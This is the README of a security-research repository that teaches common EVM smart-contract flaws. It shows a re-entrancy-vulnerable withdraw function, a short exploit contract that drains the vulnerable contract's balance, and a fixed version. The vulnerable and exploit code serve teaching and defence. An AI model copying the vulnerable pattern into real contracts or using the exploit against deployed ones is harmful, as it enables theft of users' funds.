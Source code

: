 # 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
/**
 * @dev Function to withdraw your deposited funds **vulnerable - do not use**
 */
function withdraw() public {
  /**
   * @dev The interaction is made BEFORE the state update
   *      **wrong**
   */
  (bool success, ) = msg.sender.call{ value: balances[msg.sender] }('');

  /**
   * @dev Update the state
   *      **wrong**
   */
  if (success) balances[msg.sender] = 0;
}
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
/**
 * @dev Function to attack target contract
 */
function exploit() external payable {
  require(msg.value >= 1 ether);
  target.deposit{ value: 1 ether }();
  target.withdraw();
}

/**
 * @dev Function executed on plain Ether transfers
 */
receive() external payable {
  if (address(target).balance >= 1 ether) {
    target.withdraw();
  }
}
```

### Fixed withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
/**
 * @dev Function to withdraw your deposited funds
 */
function withdraw() public {
  /**
   * @dev Update the state
   */
  uint256 amount = balances[msg.sender];
  balances[msg.sender] = 0;

  /**
   * @dev The interaction is made AFTER the state update
   */
  (bool success, ) = msg.sender.call{ value: amount }('');

  /**
   * @dev Check if the interaction was successful
   */
  require(success, 'Transfer failed.');
}
```

## Withdrawal Pattern

The goal is to implement an auction in wich we store the highest bidder and the amount of ether sent.
Past bidders should be able to reiceve their ethers back once their bid is overtaken.

The first idea could be to send back the ethers to the previous bidders in the bid function. 
The send pattern consists in sending ethers as the result of an effect. 
Not respecting this pattern can lead to re-entrancy attacks and denial of service.

## Installation

```bash
forge install
forge test
```
